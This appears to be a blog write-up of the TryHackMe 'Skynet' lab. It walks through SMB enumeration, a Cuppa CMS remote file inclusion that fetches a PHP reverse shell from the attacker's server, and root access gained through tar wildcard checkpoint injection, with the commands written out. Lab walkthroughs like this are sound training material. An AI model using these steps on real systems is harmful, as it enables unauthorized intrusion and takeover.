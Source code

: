```yaml
---
title:  "Skynet - TryHackMe"
style: fill
color: success
tags: [TryHackMe, GoBuster, SMB , CMS, RFI]
permalink: /blog/thm/skynet
description: Takes us through enumerating SMB, directory traversal, and exploiting RFI. This machine is a part of TryHackMe's Offensive Pentesting Path.  
---
```

<br>
![Image]({{ "/assets/images/thm/skynet/banner.png" | relative_url}})
<br>
## Overview:
Machine takes us through enumerating SMB, directory traversal, exploiting RFI and Privilege Escalation.

## Enumeration:
Starting with the nmap scan
```sh
nmap -sV -p- -v -oN nmap.initial 10.10.10.10
```
<br>
![Image]({{ "/assets/images/thm/skynet/nmapinitial.png" | relative_url}})
<br>
Let's go on and look through available SMB shares.
```sh
smbclient -L //10.10.10.10/
```
<br>
![Image]({{ "/assets/images/thm/skynet/smbshares.png" | relative_url}})
<br>
There are two interesting shares, **anonymous** and **milesdyson**. After accessing **anonymous** share, you will get two files *attention.txt* and *log1.txt*. Accessing **milesdyson** share needs password which we don't have as of now.
<br>
![Image]({{ "/assets/images/thm/skynet/getsmb.png" | relative_url}})
<br>
Reading through the files we get a message and a list of strings which look like passwords for something.
<br>
![Image]({{ "/assets/images/thm/skynet/attentionlog.png" | relative_url}})
<br>
Now, let's take a look at the webpage. On the index page there is a input box which leads us to nothing. Fireup **Gobuster** and search for directories.  
```sh
gobuster dir -u http://10.10.10.10/ --w /usr/share/wordlists/dirb/common.txt -t 20
```
<br>
![Image]({{ "/assets/images/thm/skynet/squirreldir.png" | relative_url}})
<br>
Access the directory in the browser. We get a login page. We might have the credentials for this. User may be **milesdyson** and we have a list of possible passwords. Fortunately, first string from the log file is the password.<br>
*username: milesdyson*<br>
*password: cyborg007haloterminator* <br>
We get to the inbox and there are some emails received by milesdyson. Opening the first one, we get his SMB password.
<br>
![Image]({{ "/assets/images/thm/skynet/smbpass.png" | relative_url}})
<br>
Access the share with the password found.
```sh
smbclient //10.10.10.10/milesdyson -U milesdyson
```
<br>
![Image]({{ "/assets/images/thm/skynet/milessmb.png" | relative_url}})
<br>
You will get a file called **important.txt** in the directory **notes**. Download it and you will get the hidden directory inside it.
<br>
![Image]({{ "/assets/images/thm/skynet/hiddendir.png" | relative_url}})
<br>
At this directory you will see Miles Dyson's Personal Page. Fireup the gobuster again against the newly found hidden directory as the base-url. You will find another directory which will lead you to Cuppa CMS.
<br>
![Image]({{ "/assets/images/thm/skynet/cuppadir.png" | relative_url}})
<br>
I tried the same credentials that we used previously but they didn't work. After using searchsploit for cuppa, you will come to know that Cuppa CMS is vulnerable to LFI & RFI.
<br>
![Image]({{ "/assets/images/thm/skynet/cuppaexploit.png" | relative_url}})
<br>
[Access the exploit here](https://www.exploit-db.com/exploits/25971) and read through it to know how to exploit it.
<br>

## Gaining Foothold:
We will use the famous php_reverse_shell to exploit RFI. If you are using Kali or Parrot, you will get the shell at /usr/share/webshells/php/php-reverse-shell.php. Copy this shell to your current directory and change the IP address in the script to your TryHackMe IP. After that you have to start the webserver using python in the same directory. 
```sh
python -m SimpleHTTPServer 80
```
Start the Netcat listener on port you specified inside the php script.
```sh
nc -nvlp 1234
```
Use the following url to exploit the vulnerability
```url
http://10.10.10.10/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://127.0.0.1/shell.php?
```
<center><h3>Before RFI</h3></center>
<br>
![Image]({{ "/assets/images/thm/skynet/RFI.png" | relative_url}})
<br>
<center><h3>After RFI</h3></center>
<br>
![Image]({{ "/assets/images/thm/skynet/RFIRevShell.png" | relative_url}})
<br>    
Get the User Flag in **milesdyson's** home directory.

## Privilege Escalation:
Enumerating through the directories, you will get a **backup.sh**.
<br>
![Image]({{ "/assets/images/thm/skynet/backup.png" | relative_url}})
<br>
First thing I checked after looking at this script is cron jobs.
```sh
cat /etc/crontab
```
The script is running every minute as root. So, this is what we will use to PrivEsc.
<br>
It's running **tar** command to backup all the contents of **/var/www/html** directory. Its using wildcard. We will take the advantage of this wildcard.
[Look at this article to know how to PrivEsc using tar and wildcard](https://www.hackingarticles.in/exploiting-wildcard-for-privilege-escalation/)
<br>
You need to create a script that you want to run as root inside the **/var/www/html** directory. Following is the one I created.
```sh
touch run.sh
echo "cp /bin/bash /tmp/bash; chmod +s /tmp/bash" > run.sh
```
Then we need to create checkpoints so that our malicious script is run by the backup.sh script.
```sh
echo "" > "--checkpoint-action=exec=sh run.sh"
echo "" > --checkpoint=1
```
![Image]({{ "/assets/images/thm/skynet/checkpoint.png" | relative_url}})
<br>
Now wait for the script to run and then you will have a SUID binary of bash inside temp directory.
<br>
![Image]({{ "/assets/images/thm/skynet/suidbash.png" | relative_url}})
<br>
```sh
./bash -p
```
![Image]({{ "/assets/images/thm/skynet/privescflag.png" | relative_url}})
<br>
Get the root flag.

That's it for this machine. See you later!
## Thank-you!!

Do follow me on socials below for stay connected for these kind of writeups/walkthroughs/blogs.
